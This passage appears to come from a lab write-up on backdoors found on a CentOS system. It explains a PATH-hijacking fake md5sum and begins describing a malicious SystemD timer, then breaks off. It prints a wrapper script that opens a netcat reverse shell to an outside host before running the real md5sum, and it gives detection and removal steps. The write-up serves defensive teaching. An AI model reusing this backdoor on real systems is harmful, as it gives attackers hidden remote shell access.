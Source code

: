 Executable files (misnomer: binaries) are stored in a few different folders in
a Linux system. These folders are checked in an order given by the contents of
`$PATH`. If you put an exe in a folder lower in the order, it will override
the upper folder, and replace the command.

### The backdoor

In Centos, the folder `/usr/local/sbin` is higher in the `$PATH` than
the folder `/usr/bin`, which is where `md5sum` is suppossed to live.

A file was created at `/usr/local/sbin/md5sum` with the following content:

```
#!/bin/bash
(nc -e /bin/bash $(dig +short web1.umcstlab.net) 4444 ) &>/dev/null &
/usr/bin/md5sum \$1
```

Netcat is used again for the actual shell, but this time it is making a connection,
instead of listening.

### How to find it

The process of verifying that executable files on your system have not been
replaced by malicious ones (which we like to call "checking your binaries")
is pretty difficult. The easiest solution is to use a tool like [rkhunter](http://rkhunter.sourceforge.net/).

This has been a problem that haunts computer science since the first computer
virus was created. Some systems use the concept of "signed code" to protect
againt program modification, but this is pretty rare.

### How to prevent it

Delete the replacement script (`sudo rm /usr/local/sbin/md5sum`).

## Backdoor 5

A malicious SystemD timer was created that downloaded and executed scripts
from the hacker's website.

### Base System

SystemD is a core part of Centos (and most other Linux distros) that manages
services like your SSH server and Nginx server. You interact with SystemD via the
`systemctl` and `journalctl` commands. One of SystemD's many features is the ability
to create "timers", which do basically the same thing as the crontab.

The `curl` command lets you download web pages via HTTP/HTTPS.

### The backdoor

The backdoor consisted of two SystemD config files.

/etc/systemd/system/cleanup.service
